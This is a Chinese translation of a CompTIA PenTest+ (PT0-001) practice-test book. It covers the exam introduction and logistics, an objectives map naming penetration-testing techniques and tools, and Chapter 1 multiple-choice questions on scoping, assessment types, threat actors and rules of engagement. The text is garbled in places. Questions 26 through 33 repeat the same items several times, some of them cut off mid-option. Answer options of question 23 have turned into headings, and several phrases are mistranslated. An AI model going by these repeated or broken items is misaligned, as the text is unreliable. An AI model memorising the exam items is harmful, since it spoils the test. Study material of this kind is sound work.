# CompTIA PenTest+ 考试 PT0-001：实践指南


# 简介

`CompTIA PenTest+ Practice Tests: Exam PT0-001` 是 `CompTIA PenTest+ Study Guide: Exam PT0-001` 的配套教材。这本书将帮助你准备参加 `PenTest+` 考试。我们为你提供了超过 1,000 道题，涵盖了 `PenTest+` 认证目标。请此本书作为指南，帮助你自己在参加实际考试之前确定需要更多关注的重点。

在尝试参加 `PenTest+` 考试之前，你应该已经是一名实战的安全从业人员了。CompTIA 建议考生应根据其网络安全路径达到中等技能水平。CompTIA 是一家非营利性贸易组织，在各种信息技术领域提供认证。这些认证范围从成为 PC 支持技术员所需的 `A+` 考试技能，一直跨越到更高级的认证，例如 `CompTIA 高级安全从业人员 (CASP)`。随着网络攻击数量的不断增加和新连接设备的出现，对熟练的网络安全专业人士的需求正在迅速增长。`CompTIA 网络安全职业路径`将帮助 IT 专业人士实现网络安全精通。

`CompTIA CySA+` 和 `CompTIA PenTest+` 考试被认为是更高级的考试，适用于具有实战经验且掌握了职业路径中之前考试涵盖知识的专业人士。`CompTIA` 认证通过 ISO 和 ANSI 认证，被广泛用于，行业衡量个人技术技能和知识的尺度。

## 为什么要认证？

`CompTIA` 认证帮助个人在信息技术领域创造卓越的职业，并让公司拥有知识丰富且经过良好培训的员工。在如今，认证在 IT 世界被认为非常重要。寻求招聘或晋升的雇主需要确保候选人具备职位所需的技能，而认证为这些技能提供了证明。

`CompTIA PenTest+` 适用于工作涉及渗透测试和漏洞管理的网络安全专业人士。

以下是使用 `PenTest+` 的职位列表：

*   渗透测试员 (Penetration tester)
*   漏洞测试员 (Vulnerability tester)
*   安全分析师 (II)
*   漏洞评估分析师
*   网络安全运营


* 应用程序安全漏洞

## CompTIA PenTest+ 考试

2018 年 7 月 31 日，CompTIA 发布了 PenTest+ 认证。这项网络安全认证专为需要识别、利用、报告和管理网络漏洞的 IT 专人士人士设计。

CompTIA PenTest+ 考试是唯一在 Pearson VUE 考试中心提供的渗透测试考试，它同时包含了基于性能的题目和选择题，以确保候选人具备在系统上执行任务所需的技能和知识。

PenTest+ 考试的独特之处在于，它要求候选人展示其实际能力和知识，对传统桌面设备、服务器以及云和移动等新环境中的设备进行测试。

完成 PenTest+ 考试后，成功的候选人将具备自定义和执行评估以及高效报告任何发现所需的技能。候选人还将能够沟通并建议策略，以提高网络的整体 IT 安全状态。

PenTest+ 考试被设计为针对渗透测试人员的厂商中立认证。它旨在衡量当前的渗透测试、漏洞评估和漏洞管理技能，侧重于网络韧性测试。成功的候选人将证明他们具有计划和界定评估的能力，了解如何处理法律和合规性要求，并使用一系列工具和技术执行漏洞扫描和渗透测试活动，随后分析结果。

本书分为以下考试目标：

* 第 1 章: 计划与界定
* 第 2 章: 信息收集与漏洞识别
* 第 3 章: 攻击与利用
* 第 4 章: 渗透测试工具
* 第 5 章: 报告与沟通

这五个领域涵盖了一系列子主题，从界定渗透测试范围到执行主机枚举和漏洞利用。

CompTIA 建议候选人在参加此考试之前具有三到四年的信息安全相关经验。虽然没有强制性的先决条件，但 CompTIA 建议候选人已经参加过 Security+ 考试或具有同经验。考试费用为 349 美元。

关于 PenTest+ 考试及如何参加考试的更多信息可以访问：[`certification.comptia.org/certifications/pentest`](https://certification.comptia.org/certifications/pentest)。

## 如何获得 CompTIA PenTest+ 认证？

一旦你准备好参加考试，可以访问 CompTIA 网站购买你的考试礼券：

[`store.comptia.org/p/CompTIAPENTEST`](https://store.comptia.org/p/CompTIAPENTEST)

一旦获得礼金号码，你需要联系 Pearson VUE。CompTIA 已与 Pearson VUE 合作，后者在全球设有考试中心。要查找距离你最近的考试中心并安排考试，请访问：[`home.pearsonvue.com/comptia`](https://home.pearsonvue.com/comptia)。

Pearson VUE 要求候选人登录其系统以安排考试。如果你有账户，直接登录即可。如果你没有账户，则需要创建一个。

考试当天，请务必携带两份身份证明，并确保在考试开始时间之前到达，为自己留出足够的时间登录。记住，你将无法携带任何笔记、电子设备或其他材料进入。请将它们留在车内，或者考试中心将为你提供一个安全地点来存放个人物品。

## PenTest+ 考试之后

一旦完成考试，你将立即获知分数。考试中心将交给你一份成绩报告副本，并为你办理离场手续。你应该保留你的成绩报告副本，以及你的考试注册记录和用于注册考试的邮箱地址。

## 维护你的认证

CompTIA 认证必须定期续期。要续期认证，你必须通过最新版本的考试、获得符合条件的高级 CompTIA 或行业认证，或者完成足的持续教育活动以获得足够的持续教育学（CEUs）来续期。在本书编写时，如果使用 CEU 续签 PenTest+ 认证，你需要花费 60 个 CEU。

CompTIA 在下处提供有关续期的额外信息：

[`certification.comptia.org/continuing-education/how-to-renew`](https://certification.comptia.org/continuing-education/how-to-renew)

当你注册续期认证时，将要求你同意持续教育（CE）计划的伦理守则，支付续费，并提交所选续期方法所需的材料。

## 使用本书进行练习

本书由七章组成。

* 第 1 章: 计划与界定
* 第 2 章: 信息收集与漏洞识别
* 第 3 章: 攻击与利用
* 第 4 章: 渗透测试工具
* 第 5 章: 报告与沟通
* 第 6 章: 模拟考试 1
* 第 7 章: 模拟考试 2

每一章涵盖一个考试目标，并带有各种题目，帮助你测试对 PenTest+ 考试目标的理解。最后两章是模拟考试，可以作为计时模拟考，帮助判断你是否已准备好参加考试。

我们建议参加模拟考试，以帮助识别可能需要花费时间的地方。

在学习本书中的问题时，你可能会遇到熟悉的工具和技术。如果你发现有困难，我们建议花额外时间阅读感兴趣的主题书籍。这将有助于填补空白，并帮助你参加考试做好充分准备。

## CompTIA PenTest+ 认证考试目标

本书的编写旨在涵盖 PenTest+ 考试目标。下表列出了考试衡量的领域及其所占的比例。

| 考试目标 | 考试占比 |
| --- | --- |
| 1.0 计划与界定 | 15% |
| 2.0 信息收集与漏洞识别 | 22% |
| 3.0 攻击与利用 | 30% |
| 4.0 渗透测试工具 | 17% |
| 5.0 报告与沟通 | 16% |
| 总计 | 100% |

## CompTIA PenTest+ 考试目标映射 PT0-001

以下 CompTIA PenTest+ 认证考试的目标映射将帮助你找到书中涵盖每个目标的位置。

### 目标映射

| 目标 | 章节 |
| --- | --- |
| 1.0 计划与界定 | |
| 1.1 解释项目计划的重要性。 | 第 1 章 |
| 理解目标读者、参与规则、沟通升级路径、资源和需求、发现的机密性、已知与未知、预算、影响分析和修复时间表、免责声明、点评估、完整性、技术限制、支持资源、Web 服务描述语言/Web 应用语言 (WSDL/WADL)、简单对象访问协议 (SOAP) 项目文件、软件开发包 (SDK) 文档、Swagger 文档、XML 架构文档 (XSD)、应用程序请求、架构图 | |
| 1.2 解释关键法律概念。 | 第 1 章 |


## 1.0 范围确定与合规性
`合同`、`工作说明 (SOW)`、`主服务协议 (MSA)`、`保密协议 (NDA)`、`环境差异`、`出口限制`、`当地及政府限制`、`公司政策`、`书面授权`、`获得适当授权人的签名`、`必要的第三方供应商授权`

### 1.3 解释正确确定项目范围的重要性。
`评估类型`、`基于目标的/目标导向的`、`基于合性的`、`红队`、`特殊范围考虑`、`合并前`、`供应链`、`目标选择`、`目标`、`内部`、`现场对比远程`、`外部`、`托管对比托管`、`物理用户`、`服务集标识 (SSID)`、`应用程序`、`考虑因素`、`白名单对比黑名单`、`安全异常`、`入侵防御系统/Web 应用防火墙 (IPS/WAF) 白名单`、`网络访问控制 (NAC)`、`证书锁定`、`公司政策`、`策略`、`黑盒对比白盒对比灰盒`、`风险接受`、`对影响的容忍度`、`调度`、`范围蔓`、`威胁者`、`对手级别`、`高级持续威胁 (APT)`、`脚本小子`、`黑客主义`、`内部威胁`、`能力`、`意图`、`威胁模型`

### 1.4 解释基于合性的评估的关键方面。
`基于合性的评估`、`局限性与注意事项`、`完成评估的规则`、`密码策略`、`数据隔离`、`密钥管理`、`限制`、`有限的网络访问`、`有限的存储`、`明确的目标`、`基于法规`

## 2.0 信息收集与漏洞识别
### 2.1 给定场景，使用适当技术进行信息收集。
`扫描`、`枚举`、`主机`、`网络`、`域名`、`用户`、`组`、`网络共享`、`网页`、`应用程序`、`服务`、`令牌`、`社交网站`、`数据包构造`、`数据包检测`、`指纹识别`、`密码学`、`证书检查`、`窃听`、`射频 (RF) 通信监控`、`嗅探`、`有线`、`无线`、`反编译`、`调试`、`开源收集`、`研究来源`、`计算机应急响应小组 (cert)`、`美国国家标准与技术研究院 (NIST)`、`日本计算机应急响应小组 (JPCERT)`、`常见攻击模式枚举分类 (CAPEC)`、`完全披露`、`常见漏洞披露 (CVE)`、`常见缺陷枚举 (CWE)`

### 2.2 给定场景，执行漏洞扫描。
`凭证对比无凭证`、`扫描类型`、`发现扫描`、`全扫描`、`隐蔽扫描`、`合规扫描`、`容器安全`、`应用程序扫描`、`动态对比静态分析`、`漏洞扫描的考虑因素`、`扫描运行时间`、`使用的协议`、`网络拓扑`、`带宽限制`、`查询限制`、`脆弱系统/非传统资产`

### 2.3 给定场景，分析漏洞扫描结果。
`资产分类`、`裁定`、`误报`、`漏洞优先级`、`常见主题`、`漏洞`、`观察结果`、`缺乏最佳实践`

### 2.4 解释利用信息准备利用的过程。
`将漏洞映射到潜在利用程序`、`优先处理渗透测试准备活动`、`描述完成攻击的常用技术`、`代码交叉编译`、`利用程序修改`、`利用链`、`概念验证开发 (利用程序开发)`、`社会工程`、`凭证暴力破解`、`字典攻击`、`彩虹表`、`欺骗`

### 2.5 解释与特殊系统相关的弱。
`工业控制系统 (ICS)`、`数据采集与监控控制 (SCADA)`、`移动设备`、`物联网 (IOT)`、`嵌入式`、`销售点系统`、`生物识别`、`应用容器`、`实时操作系统 (RTOS)`

## 3.0 攻击与利用
### 3.1 比较并对比社会工程攻击。
`钓鱼`、`鱼叉式钓鱼`、`短信钓鱼 (SMS 钓鱼)`、`语音钓鱼 (Vishing)`、`鲸鲸钓鱼`、`诱导`、`业务邮件欺骗 (BEC)`、`审问`、`冒充`、`窥视屏幕`、`USB 优盘丢弃`、`动机技术`、`权威`、`稀缺性`、`社会证明`、`紧急性`、`相似性`、`恐惧`

### 3.2 给定场景，利用基于网络的漏洞。
`名称解析利用`、`网络基本输入输出系统 (NETBIOS) 名称服务`、`链路本地多播名称解析 (LLMNr)`、`服务器消息块 (SMB) 利用`、`简单网络管理协议 (SNMP) 利用`、`简单邮件传输协议 (SMTP) 利用`、`文件传输协议 (FTP) 利用`、`域名服务 (DNS) 缓存投毒`、`哈希传递`、`中间人`、`地址解析协议 (ARP) 欺骗`、`重放`、`中继`、`安全套接层 (SSL) 剥离`、`降级`、`拒绝服务 (DOS)/压力测试`、`网络访问控制 (NAC) 绕过`、`虚拟局域网 (VLAN) 跳跃`

### 3.3 给定场景，利用基于无线和射频的漏洞。
`恶意孪生`、`Karma 攻击`、`降级攻击`、`去认证攻击`、`分片攻击`、`凭据收集`、`Wi-Fi 安全设置 (WPS) 实现缺陷`、`蓝牙劫持 (Bluejacking)`、`蓝牙嗅取 (Bluesnarfing)`、`射频识别 (RFID) 克隆`、`干扰`、`重复`

### 3.4 给定场景，利用基于应用程序的漏洞。
`注入`、`结构化查询语言 (SQL)`、`超文本标记语言 (HTML)`、`命令`、`代码`、`认证`、`凭证暴力破解`、`会话劫持`、`重定向`、`默认凭据`、`弱密码`、`Kerberos 利用`、`授权`、`参数污染`、`不安全对象引用`、`跨站点脚本 (XSS)`、`存储/持久性`、`反射型`、`文档对象模型 (DOM)`、`跨站请求伪造 (CSRF/XSRF)`、`点击劫持`、`安全配置错误`、`目录遍历`、`Cookie 操控`、`文件包含`、`本地`、`远程`、`不安全代码实践`、`源代码注释`、`缺乏错误处理`、`过度错误处理`、`硬编码凭据`、`竞态条件`、`函数未经授权/未保护的应用程序接口 (API)`、`隐藏元素`、`文档对象模型 (DOM) 中的敏感信息`、`缺乏代码签名`

### 3.5 给定场景，利用本地主机漏洞。
`操作系统 (OS) 漏洞`、`Windows`、`mac OS`、`Linux`、`Android`、`iPhone OS`、`不安全的服务和协议配置`、`权限提升`、`Linux 特有`、`设置用户 ID/设置组 ID (SUID/SGID) 程序`、`不安全的 sudo`、`ret2libc`、`特殊位`、`Windows 特有`、`cpassword`、`轻量级目录访问协议 (LDAP) 明文凭据`、`Kerberoasting`、`本地安全权威子服务 (LSASS) 中的凭据`、`无人值安装`、`安全账户管理器 (SAM) 数据库`、`动态链接库 (DLL) 劫持`、`可利用的服务`、`未引号的服务路径`、`可写的服务`、`不安全的文件/文件夹权限`、`键盘记录器`、`计划任务`、`内核漏洞`、`默认帐户设置`、`沙箱逃逸`、`Shell 升级`、`虚拟机 (VM)`、`容器`、`物理设备安全`、`冷启动攻击`、`联合测试小组 (JTAG) 调试`、`串口`

### 3.6 总结与设施相关的物理安全攻击。
`尾随/尾入`、`翻越围栏`、`翻垃圾`、`开锁`、`锁绕锁`、`出口传感器`、`卡片克隆`

### 3.7 给定场景，执行后渗透技术。


| 横向移动、远程过程调用/分布式组件对象模型 (`RPC/DCOM`)、`PsExec`、Windows 管理规范 (WMI)、计划任务、`PowerShell (PS)` 远程连接/WinRM、`服务器消息块 (SMB)`、远程桌面协议 (RDP)`、Apple 远程桌面、虚拟网络连接 (VNC)`、X-server 转发、`Telnet`、安全外壳 (SSH)`、远程 shell (RSH)/Rlogin`、持久化、计划作业、计划任务、守护进程、后门、木马、创建新用户、掩盖踪迹 |

## 4.0 渗透测试工具

### 4.1 给定场景，使用 `Nmap` 进行信息收集练习。

同步 (SYN) 扫描 (`-sS`) 对比 全连接扫描 (`-sT`)、端口选择 (`-p`)、服务识别 (`-sV`)、操作系统指纹 (`-O`)、禁用 ping (`-Pn`)、目标输入文件 (`-iL`)、定时 (`-T`)、输出参数，`-oA` (全部)、`-oN` (普通)、`-oG` (可 grep/可搜索)、`-oX` (XML 输出)

### 4.2 比较并对比工具的各种用例。

用例、侦察、枚举、漏洞扫描、凭据攻击、离线密码破解、破解破解、持久化、配置合规性、规避、反编译、取证、调试、软件保障、模糊、静态应用安全测试 (`SAST`)、动态应用安全测试 (`DAST`)、工具、扫描器、`Nikto`、`OpenVAS`、`SQLmap`、`Nessus`、凭据测试工具、`Hashcat`、`Medusa`、`Hydra`、`CeWL`、`John the Ripper`、`Cain and Abel`、`Mimikatz`、`Patator`、`Dirbuster`、Web 攻击与审计框架 (`W3AF`)、调试器、`OLLYDBG`、`immunity debugger`、GNU 项目调试器 (GDB)`、`WinDBG`、`IDA`、软件保障、`findbugs/findsecbugs`、`Peach`、`AFL`、`SonarQube`、`YASCA`、开源情报 (`OSINT`)、`whois`、`nslookup`、`foca`、`TheHarvester`、`Shodan`、`Maltego`、`Recon-NG`、`Censys`、无线、`Aircrack-NG`、`Kismet`、`WiFite`、Web 代理、`OWASP ZAP`、`Burp Suite`、社会工程学工具 (`SET`)、浏览器利用框架 (`BeEF`)、远程访问工具、安全外壳 (`SSH`)、`NCAT`、`NETCAT`、`proxychains`、网络工具、`Wireshark`、`Hping`、移动工具、`Drozer`、`APKX`、`APK studio`、杂、`searchsploit`、`powersploit`、`responder`、`impacket`、`empire`、`metasploit framework`

### 4.3 给定场景，分析与渗透测试相关的工具输出或数据。

密码破解、哈希传递 (pass the hash)、设置绑定 shell、设置反弹 shell、代理连接、上传 Web shell、注入

### 4.4 给定场景，分析基础脚本（限制于 `Bash`、`Python`、`Ruby` 和 `PowerShell`）。

逻辑、循环、流程控制、输入/输出 (`I/O`)、文件 vs 终端 vs 网络、替换、变量、常用操作、字符串操作、比较、错误处理、数组、编码/解码

## 5.0 报告与沟通

### 5.1 给定场景，使用报告编写和处理的最佳实践。

数据规范化、发现与修复的书面报告、执行摘要、方法论、发现与修复、指标与衡量、风险评分、结论、风险偏好、报告存储时间、报告的安全处理与处置

### 5.2 解释报告交付后的活动。

交付后清理、移除 shell、移除测试人员相关的凭据、移除工具、客户验收、教训、后续行动/重测、发现证明

### 5.3 给定场景，为发现的漏洞建议缓解策略。

解决方案、人员、流程、技术、发现、共享本地管理员凭据、弱密码复杂度、明文密码、无多因素身份验证、结构化查询语言 (`SQL`) 注入、不必要的开放服务、修复、凭据随机化/本地管理员密码解决方案 (`LAPS`)、最小密码要求/密码过滤器、加密密码、实施多因素身份验证、清理用户输入/参数化查询、系统加固

### 5.4 解释渗透测试过程中沟通的重要性。

沟通路径、沟通触发、关键发现、阶段、先前受入侵的指标、沟通原因、态势感知、缓解冲突、冲突消除、目标重新排序

# 第 1 章

渗透测试的规划与范围

**本章涵盖的 PENTEST+ 考试包括：**

**领域 1：规划与范围**

### 1.1 解释项目项目规划的重要性。

* 理解目标受众
* 参与规则 (Rules of engagement)
* 沟通升级路径
* 资源与需求
    * 发现的机密性
    * 已知与未知
* 预算
* 影响分析与修复时间表
* 免责声明
    * 时间点评估
    * 完整性
* 技术限制
* 支持资源
    * `WSDL/WADL`
    * 示例项目文件
    * `SDK` 文档
    * Swagger 文档
    * `XSD`
    * 示例请求
    * 架构图

### 1.2 解释关键概念。

* 合同
    * `SOW` (工作说明书)
    * `MSA` (主服务协议)
    * `NDA` (保密协议)
*  环境差异
    * 出口限制
    * 本地和国家政府限制
    * 公司政策
* 书面授权
    * 从适当部门获得签名
    * 必要时获得第三方供应商授权

### 1.3 解释正确确定项目范围的重要性。

* 评估类型
    * 基于目标的/以目标为导的
    * 基于合规性的
    * 红队 (Red team)
* 特殊范围考虑
    * 合并前
    * 供应链
* 目标选择
    * 目标
        * 内部
            * 现场 vs 离现场
        * 外部
        * 第一方 vs 第三方托管
        * 物理
        * 用户
        * SSID
        * 应用程序
    * 考虑因素
        * 白名单 vs 黑名单
        * 安全异常
            * `IPS/WAF` 白名单
            * `NAC`
            * 证书锁定 (Certificate pinning)
            * 公司政策
* 策略
    * 黑盒 vs 白盒 vs 灰盒
* 风险接受
* 对影响的容忍
* 调度
* 范围蔓胀
* 威胁者
    * 攻击者级别
        * `APT` (高级持续威胁)
        * 脚本小子 (Script kiddies)
        * 黑客分子
        * 内部威胁
    * 能力
    * 意图
    * 威胁模型

### 1.4 解释基于合规性评估的关键方面。

* 基于合规性的评估、局限性与注意事项
    * 完成评估的规则
    * 密码策略
    * 数据隔离
    * 密钥管理
    * 局限性
        * 网络访问限制
        * 存储访问限制
* 根据法规明确的目标

1. 你被要求对一家在线销售摩托车配件的中型企业进行渗透测试。你应该完成的第一项任务是什么？

    1. 研究该机构的产品提供。
    2. 确定测试的可用预算。
    3. 识别测试范围。
    4. 获取执行测试的授权。


## 2. 一位顾问被聘请为某机构执行渗透测试。测试的目标是该机构的专利设计文档。其目的是绕过安全措施并获得对这些的未经访问。在这种场景下，进行的是哪种评估？

1. 基于目标的评估 (Objective-based assessment)
2. 基于目标的评估 (Goal-based assessment)
3. 基于合规性的评估 (Compliance-based assessment)
4. 红队评估 (Red team assessment)

## 3. 一位顾问被聘请为某医疗行业机构执行渗透测试。测试的目标是一个面向公众的自助网站，用户可以通过该网站查看其健康记录。其目的是绕过安全措施并获得对这些信息的未经访问。在这种场景下，进行的是哪种评估？

1. 基于目标的评估 (Objective-based assessment)
2. 灰盒测试 (Gray box assessment)
3. 基于合规性的评估 (Compliance-based assessment)
4. 白盒测试 (White box assessment)

## 4. 一位顾问被聘请为某医疗行业机构执行渗透测试。测试的目标是一个面向公众的自助网站，用户可以通过该网站查看其健康记录。渗透测试人员已获得该机构底层网络的所有知识。在例例中，进行的是哪种测试？

1. 基于任务的评估 (Goal-based assessment)
2. 黑盒测试 (Black box assessment)
3. 基于目标的评估 (Objective-based assessment)
4. 白盒测试 (White box assessment)

## 5. 在哪种渗透测试中，测试人员对目标环境拥有有限的信息，但没有获得完全访问权限？

1. 灰盒测试 (Gray box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于合规性的评估 (Compliance-based assessment)
4. 白盒测试 (White box assessment)

## 6. 哪种渗透测试最能模拟真实世界攻击者的视角？

1. 灰盒测试 (Gray box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于目标的评估 (Objective-based assessment)
4. 白盒测试 (White box assessment)

## 7. 一位顾问被某机构聘请执行渗透测试。测试的目标是该机构的 HR 数据库应用程序。测试人员被提供了一个办公桌、一台连接到机构网络的计算机和一张网络图。然而，测试人员没有获得任何身份凭据。在这种场景下，进行的是哪种测试？

1. 基于合规性的评估 (Compliance-based assessment)
2. 黑盒测试 (Black box assessment)
3. 灰盒测试 (Gray box assessment)
4. 白盒测试 (White box assessment)

## 8. 一位顾问被某机构聘请执行渗透测试。测试的目标是该机构的电子商务网站。测试人员位于另一个城市，将使用多种不同的渗透测试工具来分析并对其进行攻击。测试人员没有关于该网站的任何信息或任何身份凭据。在这种场景下，进行的是哪种测试？

1. 白盒测试 (White box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于目标的评估 (Objective-based assessment)
4. 灰盒测试 (Gray box assessment)

## 9. 一位顾问被某机构聘请执行渗透测试。测试的目标是该机构的内部防火墙。测试人员被提供了一个办公桌、一台连接到机构网络的计算机和一张网络图。测试人员还获得了具有较高访问权限的身份凭据。在这种场景下，进行的是哪种测试？

1. 灰盒测试 (Gray box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于任务的评估 (Goals-based assessment)
4. 白盒测试 (White box assessment)

## 10. 哪种渗透测试最能集中测试人员的时间和精力，同时提供真实攻击者所见内容的近似视图？

1. 灰盒测试 (Gray box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于任务的评估 (Goals-based assessment)
4. 白盒测试 (White box assessment)

## 11. 攻击者从互联网下载了低轨道离子炮（Low Orbit Ion Cannon），然后用它对其前雇主的网站进行拒绝服务攻击。这是哪种攻击者？

1. 脚本小子 (Script kiddie)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation-state)

## 12. 攻击者对邻国的一家政府承包商发动攻击，目的是通过该承包商访问竞争国家的政府网络基础设施。攻击者所属国家的政府正在指导并资助这次攻击。这是哪种威胁主体？

1. 脚本小子 (Script kiddie)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation-state)

## 13. 一群位于前苏联集团国家的黑客聚集在一起，并在互联网上发布了一个勒索软件。他们的目标是从受害者那里勒索加密货币形式的钱。这是哪种攻击者？

1. 恶意内部人员 (Malicious insider)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation-state)

## 14. 一位攻击者是盐虾攻击的热烈支持者，并破坏了一家采集盐虾并将其作为鱼饲销售的公司网站。这是哪种攻击者？

1. 脚本小子 (Script kiddie)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation-state)

## 15. 一名员工刚刚收到了经理非常负面的绩效评估。该员工认为评估带有偏见，低评分是不合理的。作为报复，该员工从 HR 数据库服务器访问了机密的员工薪酬信息，并匿名发布在 Glassdoor 上。这是哪种攻击者？

1. 脚本小子 (Script kiddie)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 恶意内部人员 (Malicious insider)

## 16. 下列哪些攻击者最可能实施高级持续性威胁（APT）？（选择两个）

1. 恶意内部人员 (Malicious insider)
2. 脚本小子 (Script kiddie)
3. 黑客分子 (Hacktivist)
4. 有组织犯罪 (Organized crime)
5. 国家级 (Nation-state)

## 17. 下列实体最可能成为高级持续性威胁（APT）的目标？（选择两个）

1. 政府承包商
2. 提供搜索引擎优化 (SEO) 课程的网站
3. 一家跨国银行
4. 一家牙科诊所
5. 社区学院

## 18. 下列威胁主体最可能受政治事业的驱动？

1. 恶意内部人员 (Malicious insider)
2. 黑客分子 (Hacktivist)
3. 有组织犯罪 (Organized crime)
4. 脚本小子 (Script kiddie)

## 19. 下列威胁主体最可能受获得关注的欲望驱动？

1. 恶意内部人员 (Malicious insider)
2. 脚本小子 (Script kiddie)
3. 有组织犯罪 (Organized crime)
4. 国家级 (Nation-state)

## 20. 哪种渗透测试通常在最短的时间内提供最全面的评估？

1. 灰盒测试 (Gray box assessment)
2. 黑盒测试 (Black box assessment)
3. 基于任务的评估 (Goals-based assessment)
4. 白盒测试 (White box assessment)

## 21. 你正在进行研究以定义为公司执行的渗透测试范围。你的研究必须包含哪些信息？（选择两个）

1. 为什么要进行测试？
2. 上一次进行测试是什么时候？
3. 上一次测试的结果是什么？
4. 发票应该发送给谁？
5. 测试的目标受众是谁？

## 22. 你正在为即将进行的渗透测试编写参与规则（ROE）。必须包含哪些元素？（选择两个）

1. 参与活动的时间表
2. 对专门监管目标的法律的审查
3. 你过去评估过的类似组织列表
4. 目标竞争对手的列表
5. 目标网络的详细地图

## 23. 你正在为即将进行的渗透测试编写参与规则（ROE）。你应该确保包含哪些元素？（选择两个）

1. 详细的计费程序
2. 范围外的系统列表
3. 范围内的系统列表


## 4. 一经批准的、关于通知目标竞争对手参与事项的流程

## 5. 用于解决你与客户之间争议的仲裁程序

## 24. 你正在为即将进行的渗透测试编写交界规则 (`ROE`)。你应该考虑哪些元素？（选择两项。）

1. 分配给你将用于测试的系统的 IP 地址列表
2. 你将如何与目标通报测试结果
3. 你在测试期间将使用的渗透测试工具列表
4. 你曾为进行过渗透测试的过去客户提供的参考资料列表
5. 目标在测试期间不被允许的行为列表

## 25. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。在此过程中，你定义了不应攻击目标的“禁限（off-limit）”时间段、范围内和范围外之外的列表，以及对你在测试期间收集的信息的数据处理要求。你还给目标现场的一位帮助台技术人员拨了电话，并获得了进行测试的口头许可。你在 `ROE` 文档中记录了该技术人员的名字和日期。在这种情况下，你的做法哪里错误？

1. 出于隐私考虑，你不应在 `ROE` 文档中指明内部技术人员的名字。
2. 包含“禁限”时间会降低测试的准确性。
3. `ROE` 包含来自高级管理层的书面许可。
4. 所有系统在测试期间都应该是潜在目标。
5. 目标不应该知道你是如何存储测试期间收集的信息。

## 26. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次白盒评估。你规定目标在测试期间可能采用拒避（shunning）或黑名单机制。你规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。你还规定 SaaS 服务商提供的应用程序在测试期间为禁区。在这种情况下，你的做法哪里错误？

1. 应该允许目标使用其选择的任何手段来防御自己。
2. 拥有内部网络的详细信息会使测试结果无效。
3. 所有网络资源都应该接受测试，包括云资源。
4. 无错误。`ROE` 定义得恰当。

## 27. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次黑盒评估。客户规定他们不希望在一天的高峰期进行测试，因此你在文档中添加了暂停测试的“超时（timeout）”时间段。你规定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何通信。你还规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。在这种情况下，你的做法哪里错误？

1. 拥有内部网络的详细信息会使测试结果无效。
2. 在高峰期间暂停评估会使测试结果无效。
3. 测试人员与客户之间的通信应在整个测试过程中定期间隔地进行。
4. 无错误。

## 28. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次黑盒评估。客户规定他们不希望在一天的高峰期进行测试，因此你在文档中添加了暂停测试的“超时（timeout）”时间段。你规定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何通信。你还规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。在这种情况下，你的做法哪里错误？

1. 拥有内部网络的详细信息会使测试结果无效。
2. 在高峰期间暂停评估会使测试结果无效。
3. 测试人员与客户之间的通信应在整个测试过程中定期间隔地进行。
4. 无错误。

## 29. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次白盒评估。你规定目标在测试期间可能采用拒避（shunning）或黑名单机制。你规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。你还规定 SaaS 服务商提供的应用程序在测试期间为禁区。在这种情况下，你的做法哪里错误？

1. 应该允许目标使用其选择的任何手段来防御自己。
2. 拥有内部网络的详细信息会使测试结果无效。
3. 所有网络资源都应该接受测试，包括云资源。
4. 无错误。`ROE` 定义得恰当。

## 30. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次黑盒评估。客户规定他们不希望在一天的高峰期进行测试，因此你在文档中添加了暂停测试的“超时（timeout）”时间段。你规定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何通信。你还规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。在这种情况下，你的做法哪里错误？

1. 拥有内部网络的详细信息会使测试结果无效。
2. 在高高峰期间暂停评估会使测试结果无效。
3. 测试人员与客户之间的通信应在整个测试过程中定期间隔地进行。
4. 无

##31. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次黑盒评估。客户规定他们不希望在一天的高峰期进行测试，因此你在文档中添加了暂停测试的“超时（timeout）”时间段。你规定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何通信。你还规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。在这种情况下，你的做法哪里错误？

1. 拥有内部网络的详细信息会使测试结果无效。
2. 在高高峰期间暂停评估会使测试结果无效。
3. 测试人员与客户之间的通信应在整个测试过程中定期间隔地进行。
4. 无

## 32. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次白盒评估。你规定目标在测试期间可能采用拒避（shunning）或黑名单机制。你规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。你还规定 SaaS 服务商提供的应用程序在测试期间为禁区。在这种情况下，你的做法哪里错误？

1. 应该允许目标使用其选择的任何手段来防御自己。
2. 拥有内部网络的详细信息会使测试结果无效。
3. 所有网络资源都应该接受测试，包括云资源。
4. 无错误。`ROE` 定义得恰当。

## 33. 你正在为即将进行的渗透测试定义交界规则 (`ROE`)。这将是一次黑盒评估。客户规定他们不希望在一天的高峰期进行测试，因此你在文档中添加了暂停测试的“超时（timeout）”时间段。你规定在测试结束并提交最终测试结果之前，你与客户之间不会发生任何通信。你还规定目标必须为你提供网络内部访问权限、网络拓图和身份验证凭据。在这种情况下，你的做法哪里错误？

1. 拥有内部网络的详细信息会使测试结果无效。
